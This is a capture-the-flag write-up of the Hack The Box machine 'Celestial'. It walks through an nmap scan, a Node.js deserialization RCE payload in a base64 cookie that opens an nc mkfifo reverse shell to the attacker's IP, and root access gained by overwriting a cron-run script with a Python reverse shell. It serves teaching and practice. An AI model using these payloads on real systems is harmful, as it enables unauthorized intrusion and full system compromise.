




---
search:
  exclude: true
---
# Celestial Writeup

## Introduction :

Celestial is a Medium linux box released back in March 2018

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → nmap -F 10.10.10.85
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 09:26 GMT
      Nmap scan report for 10.10.10.85
      Host is up (0.38s latency).
      Not shown: 99 closed ports
      PORT     STATE SERVICE
      3000/tcp open  ppp
    
      Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → nmap -sCV -p3000 10.10.10.85
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 09:27 GMT
      Nmap scan report for 10.10.10.85
      Host is up (0.43s latency).
    
      PORT     STATE SERVICE VERSION
      3000/tcp open  http    Node.js Express framework
      |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 3000 so let's investigate it:

Note that the http service running on port 3000 is preety slow / gets throttled so we cannot reasonably use dirsearch. Now since it's quite weird to get 2 different results from curl and from our webbrowser we'll investigate it by using burpsuite, intercepting our request using the interceptor and foxyproxy, and sending it over to the repeater (CTRL+R) and going there (CTRL+SHIFT+R) to see what we're dealing with exactly :

Now what's interesting here is the cookie's profile parameter which contains a base64 encoded string:

Do not forget to URL-Decode the base64 encoded string because as you can see the 2 last = signs have been url encoded to %3D.

From there we get a JSON object parsing where 2+2 equals to 22. here when we look at our last part of the json object we have x"num":"2") so we could assume that we can misuse this concatenation and chain RCE to it. So let's try out a generic Node.js parsing and serialization vulnerability:

_Original JSON:_
    
    
      {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
    

` _Infected JSON:_
    
    
      {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat/tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
    

Therefore we obtain the combination of the two which is what we're going to use on this box : 
    
    
    {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2","rce":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) });}()"}
    

Now as we have seen above, we need to first base64 encode it: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → nano infected
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → cat infected | base64
      eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVt
      YiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIiLCJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rp
      b24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3JtIC90bXAvZjtta2ZpZm8gL3Rt
      cC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjEwIDkwMDEgPi90bXAv
      ZicsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQp
      IH0pO30oKSJ9Cg==
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → nc -lvnp 9001
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9001
      Ncat: Listening on 0.0.0.0:9001
    

We have to also URL-Encode this base64 encoded string because we have a few + and = signs in there, we encode the string inside burpsuite by selecting the string and then by pressing CTRL+U and then hit send to get our reverse shell connection:

And we get a reverse shell ! now we just need to grab the user flag: 
    
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
    → nc -lvnp 9001
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.85.
    Ncat: Connection from 10.10.10.85:58818.
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    sun
    
    $ cat /home/sun/Documents/user.txt
    9aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And we have been able to print out the user flag ! 

## **Part 3 : Getting Root Access**

From there, our first reflex is to try out sudo -l after we spawned a tty shell using python's pty module:
    
    
      $ sudo -l
      sudo: no tty present and no askpass program specified
      $ which python
      /usr/bin/python
      $ python -c 'import pty;pty.spawn("/bin/bash")'
      sun@sun:~/Documents$ sudo -l
      sudo -l
      [sudo] password for sun:
    

but we're out of luck, so we poke around the box and we find a writeable python script in /home/sun/Documents : 
    
    
      sun@sun:~/Documents$ ls -lash
      ls -lash
      total 16K
      4.0K drwxr-xr-x  2 sun sun 4.0K Mar  4  2018 .
      4.0K drwxr-xr-x 21 sun sun 4.0K Mar 16 05:23 ..
      4.0K -rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
      4.0K -rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
    

The script in there is being executed by cron as root every 5 minutes, so we can just place our python reverse shell one liner in there and get a root reverse shell once cron executes it. 

_Terminal 1:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → nc -lvnp 9002
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9002
      Ncat: Listening on 0.0.0.0:9002
    
    

` _Terminal 2:_
    
    
      sun@sun:~/Documents$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > script.py
    

` _Terminal 1:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Celestial]
      → nc -lvnp 9002
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9002
      Ncat: Listening on 0.0.0.0:9002
      Ncat: Connection from 10.10.10.85.
      Ncat: Connection from 10.10.10.85:43524.
      /bin/sh: 0: can't access tty; job control turned off
    
      # id && cat /root/root.txt
      uid=0(root) gid=0(root) groups=0(root)
      baXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it ! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

